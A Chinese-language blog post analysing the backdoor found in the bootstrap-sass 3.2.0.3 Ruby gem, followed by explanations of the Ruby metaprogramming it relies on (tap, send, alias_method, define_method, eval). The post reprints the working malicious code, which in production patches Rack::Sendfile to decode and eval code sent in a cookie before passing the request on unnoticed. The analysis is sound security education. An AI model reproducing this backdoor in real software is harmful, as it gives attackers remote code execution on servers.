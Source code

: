 ```yaml
---
title:  "bootstrap-sass 3.2.0.3 黑客大佬用到的元编程"
toc: true
toc_label: "目录"
toc_icon: "cog"
tags: ruby gem cve
---
```


*tl; dr [**BKSpurgeon** 大佬的分析](https://github.com/twbs/bootstrap-sass/issues/1195#issuecomment-479756912)*

### 白帽大佬的分析

```ruby
begin
  require 'rack/sendfile'
  if Rails.env.production? # Continue only if we're in the rails production environment:

    Rack::Sendfile.tap do |r|
      # We're using the tap method. the block parameter, r, will be the Rack::Sendfile class.
      # So whenever you see r, just think we are working with the Rack::Sendfile class.

      r.send :alias_method, :c, :call
      # creates a method on Rack::Sendfile called `c` which reroutes to `call`.
      ## After the above you could now do:
      # send_file = Rack::Sendfile.new
      # send_file.c
      ## and the above would in turn call the ORIGINAL `call` method contained in the
      ## Rack::Sendfile class, and not the one that is being monkey patched below.
      ## `r.send` makes use of the `Object#send` method https://apidock.com/ruby/Object/send
      ## Another way of rewriting the above code would be:
      ## `Rack::Sendfile.alias_method(:c, :call)` which is equivalent to:
      ## `r.send :alias_method, :c, :call`

      ## The following bit of code below bit redefines the call(e) method which is in
      ## the SendFile class: https://github.com/rack/rack/blob/master/lib/rack/sendfile.rb
      ## again, `r.send(:define_method, :call) do |e|` is equivalent to saying:
      ## class Rack::Sendfile
      ##   def call(e)
      ##         # => Insert the malicious code below: begin....rescue...end
      ##   end
      ## end
      r.send(:define_method, :call) do |e|
        begin
          x = Base64.urlsafe_decode64(e['http_cookie'.upcase].scan(/___cfduid=(.+);/).flatten[0].to_s)
          # Please edit this if you are more knowledgeable:

          # gets the e['HTTP_COOKIE'] value out of there.
          # then it scans/looks for this for this value: ___cfduid and extracts it with
          # a regular expression.
          # we then get the entire string out of those cookie(s) and convert it to a string
          # then we unencode it and
          # "eval" simply runs whatever code it's been given, AS A STRING!
          # so that someone could simply construct a request with the malicious code,
          # hidden in a cookie and can run it on your server.
          # simplistically: I could send this: e("WIPE HARDRIVE")
          # and it would run, provided the security levels in eval are passed.
          eval(x) if x
        rescue Exception
        end

        c(e)
        # after we've done the dirty work, let's run the ORIGINAL `call` method, as
        # defined in the Rack::Sendfile class. so no one would be none the wiser.
        # in other words, we've created an aliased method `c`. Running `c`
        # runs the ORIGINAL `call` method, and not the monkey patched one above.
        # But if you run `call` instead of `c`, you will be actually running the tainted and
        # monkey patched `call` method above, and not the original `call` method defined.
        # in Rack::Sendfile. Like Kelley Wentworth says: "Sneaky, sneaky, sneaky!"
      end
    end
  end
rescue Exception
  nil
end
```

### 背景知识：tap

The primary purpose of this method is to “tap into” a method chain, in order to perform operations on intermediate results within the chain.

黑客大佬不修改 object 本身，用 tap 复制一份到 block 去加料

```ruby
(1..10).tap {|x| puts "original: #{x}" }
  .to_a.tap {|x| puts "array:    #{x}" }
  .select {|x| x.even? }.tap {|x| puts "evens:    #{x}" }
  .map {|x| x*x }.tap {|x| puts "squares:  #{x}" }
#original: 1..10
#array:    [1, 2, 3, 4, 5, 6, 7, 8, 9, 10]
#evens:    [2, 4, 6, 8, 10]
#squares:  [4, 16, 36, 64, 100]
```

### 背景知识：send

黑客大佬 send 了 alias_method、define_method，用来保存原来的方法，然后加料

```ruby
class Klass
  def hello(*args)
    puts "大家好 " + args.join(' ')
  end
end
k = Klass.new
k.send :hello, "我是渣渣辉", "我是陈咬春"
#大家好 我是渣渣辉 我是陈咬春
```

### 背景知识：alias_method

This can be used to retain access to methods that are overridden.

重写某个方法后，用 alias 可以访问原方法

```ruby
module Mod
  alias_method :orig_exit, :exit
  def exit
    print "加了料的 "
    orig_exit
  end

  def orig_exit
    puts "bootstrap-sass 官方出品"
  end
end
include Mod
exit
# 加了料的 bootstrap-sass 官方出品
```

### 背景知识：define_method

给类加/重写一个实例方法

```ruby
class A
  def fred
    puts "In Fred"
  end
  def create_method(name, &block)
    self.class.define_method(name, &block)
  end
  define_method(:wilma) { puts "Charge it!" }
end
class B < A
  define_method(:barney, instance_method(:fred))
end
a = B.new
a.barney
a.wilma
a.create_method(:betty) { p self }
a.betty
#In Fred
#Charge it!
##<B:0x00007f869f84e6f8>
```

### 背景知识：eval

eval 可以将（多个）字符串作为代码执行，详见 [Ruby 中的 eval 与 binding](http://wjp2013.github.io/ruby/eval-binding/)

```ruby
eval("p '拖库'; p '删库'; p '留下勒索信息'")
#"拖库"
#"删库"
#"留下勒索信息"
```

### Reference

[白帽大佬的分析](https://github.com/twbs/bootstrap-sass/issues/1195)

[Ruby 中的 eval 与 binding](http://wjp2013.github.io/ruby/eval-binding/)
